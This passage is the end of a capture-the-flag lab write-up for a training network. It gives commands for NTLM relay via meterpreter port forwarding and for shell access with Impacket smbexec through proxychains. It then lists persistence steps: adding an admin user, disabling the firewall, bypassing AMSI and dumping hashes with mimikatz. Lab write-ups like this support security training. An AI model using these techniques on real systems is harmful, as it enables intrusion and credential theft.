- Once done, we execute the following command ` shutdown /r /t 0 ` to restart ` 10.200.107.35 `

- We can perform nmap scanning to ensure the smb service is not running with ` nmap -p 445 10.200.107.35 `

    

- On our attacker machine, once ` 10.200.107.35 ` is up and meterpreter session will be connected and execute command below to forward smb traffic from ` 10.200.107.35 ` back to our attacker machine.

    ```bash
    portfwd add -R -L 0.0.0.0 -l 445 -p 445
    ```

Once above action taken, the exploitation is completed as shown below (It may take up to 3 minutes for Impacket - ntlmrelayx to start receive smb traffic):


As we success exploit smb session with ntlm relay attack, we decided to use the popular tools from [Impacket - smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py) that is downloaded on our attacker machine to gain access to ` 10.200.107.30 ` in conjunction with ` proxychain `

To use smbexec with proxychain, we have added below line into ` /etc/proxychain.conf ` on our attacker machine (we have install proxychain prior using ` sudo apt install -y proxychains ` command on our attacker machine).

```
socks4 127.0.0.1 1080
```

Once ready, we execute the following command, it will launch shell access on ` 10.200.107.30 `

```bash
sudo proxychains python3 ./smbexec.py -no-pass HOLOLIVE/SRV-ADMIN@10.200.107.30 -shell-type cmd
```


And we perform the same technique to gain persistent access to the system that was done on ` 10.200.107.31 `

- create user and add user to local administrator group
- add "watamet" to local administrator group
- turn off windows firewall for all profile
- add "Everyone" into "Remote Desktop Users"
- bypass Windows AMSI
- upload mimikatz and dump all the available hashes such as NTLM (alternativly we can execute ` run post/windows/gather/hashdump ` in meterpreter to dump hashes as well)

Then we start enumerate the system and found root.txt on ` C:\Users\Administrator\Desktop `


With this, we have own the entire Holo corporate network and Holo domain controller.

Side note, we have try various method to attack ` 10.200.107.32 ` however the attack is unsuccessful.

<br />

---

> Do let me know any command can be improve or you have any question you can contact me via THM message or write down comment below or via FB

